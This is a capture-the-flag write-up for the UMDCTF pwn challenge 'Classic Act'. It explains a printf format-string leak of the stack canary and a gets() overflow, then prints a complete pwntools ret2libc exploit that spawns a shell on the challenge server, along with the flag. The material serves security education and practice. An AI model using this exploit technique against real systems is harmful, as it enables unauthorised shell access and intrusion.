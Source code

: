 # Classic Act

## Challenge

The challenge first asks for our name, which it repeats to us.
It then asks for a second input, then prints one of two responses based on the input.

```
Please enter your name!
AAA
Hello:
AAA
What would you like to do today?
BBB
Good luck doing that!
```

### Decompiled code

```c
uint64_t sym.vuln(void) {
    int32_t iVar1;
    uint64_t uVar2;
    int64_t in_FS_OFFSET;
    int64_t var_68h;
    char *format;
    char *s1;
    int64_t var_8h;
    
    var_8h = *(int64_t *)(in_FS_OFFSET + 0x28);
    sym.imp.puts("Please enter your name!");
    sym.imp.gets(&format);
    sym.imp.puts("Hello:");
    sym.imp.printf(&format);
    sym.imp.putchar(10);
    sym.imp.puts("What would you like to do today?");
    sym.imp.gets(&s1);
    iVar1 = sym.imp.strncmp(&s1, "Play in UMDCTF!", 0xf);
    if (iVar1 != 0) {
        sym.imp.puts("Good luck doing that!");
    }
    else {
        sym.imp.puts("You have come to the right place!");
    }
    uVar2 = (uint64_t)(iVar1 != 0);
    if (var_8h != *(int64_t *)(in_FS_OFFSET + 0x28)) {
        uVar2 = sym.imp.__stack_chk_fail();
    }
    return uVar2;
}
```

### Mitigations

```
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
```

## Solution

There is a format string vulnerability in the code used to echo the user's name.
The challenge uses `printf` directly on user input to repeat the name.
This allows us to leak values from the stack, such as the canary, using conversion specifiers.

```
Please enter your name!
%19$p
Hello:
0x5c7d54174b43c600
What would you like to do today?
```

There is a buffer overflow vulnerability in the next input, as the challenge uses `gets` which does
not check the length of our input.
We can use this to perform a ret2libc attack.

First, we can leak the libc version by calling `puts` with different GOT entries as the argument.
This allows us to leak the addresses of libc versions.
The last 12 bits of each address can be used to determine the libc version in a libc database.

Note that this challenge uses a less common version of libc and may not be present in some
databases.

Now we can leak the base address of libc using the a known function address and a GOT entry.
Afterwards, we return to `main` so we can send a second payload to spawn a shell.
The second input simply calls `system("/bin/sh")` using the leaked addresses.
This will spawn a shell and allow us to read the flag.

## Exploit

```py
#!/usr/bin/env python3
# -*- coding: utf-8 -*-
# This exploit template was generated via:
# $ pwn template --host 0.cloud.chals.io --port 10058 classicact
from pwn import *

# Set up pwntools for the correct architecture
exe = context.binary = ELF('classicact')

# Many built-in settings can be controlled on the command-line and show up
# in "args".  For example, to dump all data sent/received, and disable ASLR
# for all created processes...
# ./exploit.py DEBUG NOASLR
# ./exploit.py GDB HOST=example.com PORT=4141
host = args.HOST or '0.cloud.chals.io'
port = int(args.PORT or 10058)

def start_local(argv=[], *a, **kw):
    '''Execute the target binary locally'''
    if args.GDB:
        return gdb.debug([exe.path] + argv, gdbscript=gdbscript, *a, **kw)
    else:
        return process([exe.path] + argv, *a, **kw)

def start_remote(argv=[], *a, **kw):
    '''Connect to the process on the remote host'''
    io = connect(host, port)
    if args.GDB:
        gdb.attach(io, gdbscript=gdbscript)
    return io

def start(argv=[], *a, **kw):
    '''Start the exploit against the target.'''
    if args.LOCAL:
        return start_local(argv, *a, **kw)
    else:
        return start_remote(argv, *a, **kw)

# Specify your GDB script here for debugging
# GDB will be launched if the exploit is run via e.g.
# ./exploit.py GDB
gdbscript = '''
tbreak main
continue
'''.format(**locals())

#===========================================================
#                    EXPLOIT GOES HERE
#===========================================================
# Arch:     amd64-64-little
# RELRO:    Partial RELRO
# Stack:    Canary found
# NX:       NX enabled
# PIE:      No PIE (0x400000)

libc = None

if args.LOCAL:
    libc = ELF('/usr/lib/libc.so.6')
else:
    libc = ELF('libc6_2.31-0ubuntu9.7_amd64.so')

io = start()

io.sendlineafter(b"Please enter your name!\n", "%{}$p".format((0x70-0x8) // 8 + 6).encode())
io.recvuntil(b"Hello:\n")

canary = int(io.recvuntil(b"\n", drop=True), 0)
io.success("Canary: {}".format(hex(canary)))

rop = ROP(exe)
rop.call(exe.plt['puts'], [exe.got['puts']])
rop.call(exe.sym['main'])
print(rop.dump())
io.sendlineafter(b"What would you like to do today?\n", flat({
    0x50-0x8: canary,
    0x50+0x8: rop.chain(),
    }))
io.recvuntil(b"Good luck doing that!\n")

puts = unpack(io.recvuntil(b"\n", drop=True).ljust(8, b'\x00'))
io.info("puts: {}".format(hex(puts)))

libc.address = puts - libc.sym['puts']
io.success("Libc: {}".format(hex(libc.address)))

io.sendlineafter(b"Please enter your name!\n", b"a")
rop = ROP(exe)
rop.raw(rop.ret)
rop.call(libc.sym['system'], [next(libc.search(b"/bin/sh"))])
print(rop.dump())
io.sendlineafter(b"What would you like to do today?\n", flat({
    0x50-0x8: canary,
    0x50+0x8: rop.chain(),
    }))

io.interactive()
```

## Flag

```
UMDCTF{H3r3_W3_G0_AgAIn_an0thEr_RET2LIBC}
```

